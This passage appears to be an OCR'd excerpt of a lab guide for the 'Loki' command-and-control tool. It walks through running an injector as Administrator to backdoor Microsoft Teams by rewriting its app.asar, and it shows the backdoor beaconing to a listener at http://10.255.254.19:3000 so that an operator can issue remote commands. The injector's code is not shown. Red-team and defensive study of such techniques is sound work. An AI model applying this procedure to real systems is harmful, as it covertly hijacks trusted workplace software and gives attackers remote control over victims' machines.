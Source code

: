 ### On Windows Lab (Target):
```powershell
# 1. Transfer loki_injector.exe
# Download from GitHub Actions artifacts

# 2. Run as Administrator
Right-click loki_injector.exe → Run as Administrator

# 3. Expected output:
[*] Scanning for Electron applications...
[+] Found: Microsoft Teams (C:\Users\...\app.asar)
[*] Creating backup: app.asar.backup
[*] Extracting ASAR...
[*] Injecting backdoor...
[+] Injection successful!
[*] Repacking ASAR...
[+] Complete! Restart Microsoft Teams
```

### Agent Activation:
```
1. User restarts Microsoft Teams on Windows
2. Teams loads with injected backdoor
3. Backdoor beacons to: http://10.255.254.19:3000
4. macOS dashboard shows new agent connection
5. You can now send commands!
```

═══════════════════════════════════════════════════════════════

## 🔍 Monitoring & Verification

### In Loki Dashboard (macOS):

**New Agent Appears:**
- Hostname: LAB-WIN-XX
- Username: test_user (or your Windows username)
- Platform: win32
- App: Microsoft Teams
- Status: ✅ Connected

**Test Commands:**
```
whoami          → DOMAIN\username
hostname        → LAB-WIN-XX
ipconfig        → Network configuration
dir C:\         → Directory listing
tasklist        → Running processes
```

### In Windows (DevTools Verification):
